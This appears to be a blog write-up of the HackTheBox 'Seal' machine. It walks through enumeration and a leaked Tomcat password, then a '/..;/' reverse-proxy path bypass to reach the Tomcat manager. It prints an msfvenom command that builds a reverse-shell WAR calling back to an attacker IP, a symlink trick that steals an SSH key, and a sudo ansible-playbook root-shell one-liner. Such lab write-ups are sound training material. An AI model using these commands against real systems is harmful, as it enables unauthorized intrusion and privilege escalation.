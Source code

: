 ```yaml
---
title: Hackthebox - Seal
date: 2021-07-19 00:00:00 +0530
categories: [hackthebox, linux]
tags: [tomcat, url parser logic, sudo ansible-playbook]     # TAG names should always be lowercase
image: /assets/img/posts/seal/seal_banner.png
---
```



![](/assets/img/posts/seal/seal_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.250 seal.htb

**nmap scan:**
```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 19 Jul 2021 01:58:12 GMT
|     Set-Cookie: JSESSIONID=node011404vs9ar3yf13p0bynzm3e473256.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 19 Jul 2021 01:58:09 GMT
|     Set-Cookie: JSESSIONID=node0tb9dlbm6phenql9adikr4oaa73254.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 19 Jul 2021 01:58:10 GMT
|     Set-Cookie: JSESSIONID=node0lj0ulchztdazm08pgm1ft1e173255.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
... [snip] ...
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

* Host os is **Ubuntu Focal** from [OpenSSH 8.2p1 Ubuntu 4ubuntu0.2](https://launchpad.net/ubuntu/+source/openssh/1:8.2p1-4ubuntu0.2)
* Get **Hostname:** `seal.htb` from https server ssl certificate.
* Viewing ssl certificate found **Email address:** `admin@seal.htb`

**Port 8080** Running "[GitBucket](https://bitbucket.org/product)"

![](/assets/img/posts/seal/port8080-gitbucket.png)

Create new account and login, found some "root" user repositories

![](/assets/img/posts/seal/git-repos.png)

**Information collected from gitbucket repositories**
* Found 2 Users `Infra Admin:alex@seal.htb` and `Core Dev:luis@seal.htb`
  * `alex`
  * `luis`
* `seal_market` repository contains source code for application running on https server.
* From on of the `seal_market` repository commit found **Tomcat credential:** `tomcat:42MrHBf*z8{Z%`
* successfully logged in as user "`luis`" with tomcat password "`42MrHBf*z8{Z%`".
* from nginx config `/root/seal_market/blob/master/nginx/sites-enabled/default`, nginx server worked as a proxy and redirect https server to local tomcat server `/root/seal_market/blob/master/tomcat/server.xml`. 
* From `/root/seal_market/blob/master/nginx/sites-enabled/default`
  * There are 3 locations on the server 
    * Tomcat manager: `/manager/html` and `/host-manager/html`
    * seal_market app admin: `/admin/dashboard`
  * These locations only accessible mutual authentication, There is no registration and login features for accessing.
    * **[Mutual Authentication](https://www.docusign.com/blog/dsdev-mutual-tls-stuff-know):** The TLS handshake Certificate Request message is optionally sent by the server to the client. ... After sending the Certificate Request message and receiving a reply, the server verifies the client's certificate. When verification is successful, the server has authenticated the client.


# Foothold

## server url Parser Logic

This configuration could bypass with `;` because of the Path Normalization bypass flaw.
* [Breaking Parser Logic! By Orange Tsai](https://www.youtube.com/watch?v=CIhHpkybYsY)
* [Tomcat specific](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)

When we send request to a simple nginx server `/test1/../test2` it normalized to `/test2` and if we add anything with `..` like `/..!/` it will not and if we send `/..;/` reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is. Tomcat will threat the sequence `/..;/` as `/../` and normalize the path while.

This can even bypass with `/;/manager/html`

![](/assets/img/posts/seal/tomcat-manager.png)

Now, upload malicious war file and get reverse shell

Generate war file
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f war > reverse.war
```

Intercept war file upload request in burp.

![](/assets/img/posts/seal/upload-war.png)

edit the url and forward request

![](/assets/img/posts/seal/intercept-war.png)

![](/assets/img/posts/seal/war-deploy.png)

![](/assets/img/posts/seal/rev-shell.png)

# Privesc

## `ansible-playbook` Command with sudo

In `/opt` directory, there is a `run.yml` that creating backup of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` directory and using `copy_links=yes` parameter and if check [ansible synchronize_module docs](https://docs.ansible.com/ansible/2.3/synchronize_module.html)

**`copy_links`** Copy symlinks as the item that they point to (the referent) is copied, rather than the symlink.

![](/assets/img/posts/seal/ansible-sync.png)

And Two things we already have read access in user "luis" home folder and write access in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`.
```bash
(remote) tomcat@seal:/home$ ls -l 
total 4
drwxr-xr-x 9 luis luis 4096 May  7 07:01 luis
(remote) tomcat@seal:/home$ ls -l /var/lib/tomcat9/webapps/ROOT/admin/dashboard
total 92
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7 09:26 uploads
```

and user "luis" home folder contains .ssh directory.

we can symlinks `/home/luis/.ssh` in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` and when next backup created it will add `.ssh` directory
```bash
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

![](/assets/img/posts/seal/extract-files.png)

User "luis" can run `/usr/bin/ansible-playbook` as any user with sudo.
```bash
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

and `/usr/bin/ansible-playbook` this symlink to `ansible`
```bash
luis@seal:~$ ls -la /usr/bin/ansible-playbook
lrwxrwxrwx 1 root root 7 Mar 16  2020 /usr/bin/ansible-playbook -> ansible
```

found exploit in [gtfobins](https://gtfobins.github.io/gtfobins/ansible-playbook/)
```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo /usr/bin/ansible-playbook $TF
```

![](/assets/img/posts/seal/rooted.png)

